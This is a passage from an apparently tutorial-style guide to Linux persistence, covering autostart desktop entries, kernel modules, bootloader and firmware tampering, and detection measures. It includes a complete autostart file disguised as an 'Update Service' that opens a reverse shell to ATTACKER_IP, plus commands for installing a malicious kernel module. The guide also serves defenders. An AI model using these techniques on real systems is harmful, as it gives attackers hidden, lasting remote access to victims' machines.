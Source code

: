 
## 5️⃣ Autostart Desktop Entries (GUI persistence)
On desktop systems, `.desktop` files in `~/.config/autostart/` persist on GUI login.

```bash
mkdir -p ~/.config/autostart
cat > ~/.config/autostart/update.desktop <<'EOF'
[Desktop Entry]
Type=Application
Exec=/bin/bash -lc 'bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1'
Hidden=false
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name=Update Service
EOF
```

---

## 6️⃣ Kernel Module / DKMS Persistence (advanced)
Kernel modules can give deep persistence. Loading a malicious module requires root, but if an attacker has root at any point, they can install a module or modify initramfs to load modules at boot.

- List loaded modules: `lsmod`
- Insert module: `sudo insmod evil.ko`
- Persistent install: place `.ko` in `/lib/modules/$(uname -r)/extra/` and run `depmod -a`
- Rebuild initramfs if needed: `sudo update-initramfs -u` (Debian/Ubuntu)

**DKMS:** Dynamic Kernel Module Support can rebuild modules across kernel updates — abusing DKMS allows long-term persistence across kernel upgrades.

**Danger:** Kernel modules run with kernel privileges — misuse can crash the system or create rootkits. Only in lab environments.

---

## 7️⃣ Bootloader & Firmware Persistence (extreme)
- **GRUB**: modifying `/etc/default/grub` or adding grub scripts can achieve early-boot persistence. Rebuilding grub config (`sudo update-grub`) applies changes.
- **Firmware (UEFI)**: Advanced attackers may write to UEFI variables or firmware, but this is highly risky and platform-specific.

---

## 8️⃣ Detection & Defensive Strategies
- Monitor for new systemd units: `auditd` rules watching `/etc/systemd/system` and `~/.config/systemd/user` changes.
- Watch timer changes: `systemctl list-timers --all` and alert on unknown timers.
- File integrity monitoring (AIDE, Tripwire) on: `/etc/systemd/`, `/etc/rc.local`, `/lib/modules/`, `/boot/`.
- Monitor kernel module insertions: `dmesg`, `journalctl -k`, and `modprobe` execs. Use `auditctl -w /sbin/insmod -p x` rules.
- Restrict write access: ensure only root can write to unit directories and module dirs.
- DKMS directories and package installations should be monitored and validated.

---
